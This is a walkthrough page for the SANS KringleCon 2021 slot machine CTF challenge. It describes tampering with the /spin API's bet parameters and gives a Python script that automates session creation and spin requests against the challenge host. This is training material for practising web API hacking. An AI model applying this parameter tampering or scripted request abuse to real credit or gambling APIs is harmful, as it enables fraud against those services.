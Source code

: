 ## Summary
Inside the Jack Frost tower, click a slot machine and practice web api hacking!

[Back to Table of Contents](https://github.com/minispooner/SANS_KringleCon_2021_Walkthrough/blob/main/README.md)

## Steps
1. Open up BurpSuite and scope the target to the web app or start persisting network traffic in your browser's developer console. Get to know the few main web app calls that your client makes.
2. Try to get 1000+ credits!

<details>
  <summary>Hint 1</summary>
  After finding the /spin api call, I tried modifying the betamount param with N>credit_amount (like 1001) but that failed. I then tried raising the cpl field to a large ammount and also tried changing the numline but both failed as well. At this point, how could we beat the odds? Try scripting it!
</details>

<details>
  <summary>Answer</summary>

```
import requests

for i in range(0,10):
    s = requests.Session()
    s.get('https://slots.jackfrosttower.com/')
    # print(r.cookies['slots_session'])
    r = s.get('https://slots.jackfrosttower.com/api/v1/02b05459-0d09-4881-8811-9a2a7e28fd45/session')
    session_id = r.json()['data']['session_id']

    for j in range(0,10):
        h = {'X-Ncash-Token': session_id}
        r = s.post(
            'https://slots.jackfrosttower.com/api/v1/02b05459-0d09-4881-8811-9a2a7e28fd45/spin',
            data={
                'betamount':'10',
                'numline':20,
                'cpl':0.5
            },
            headers=h
        )
        if not r.json()['success'] or r.json()['data']['credit']<10:
            break
        else:
            print(r.text)
```
  
  Answer text: "I'm going to have some bouncer trolls bounce you right out of this casino!"
</details>

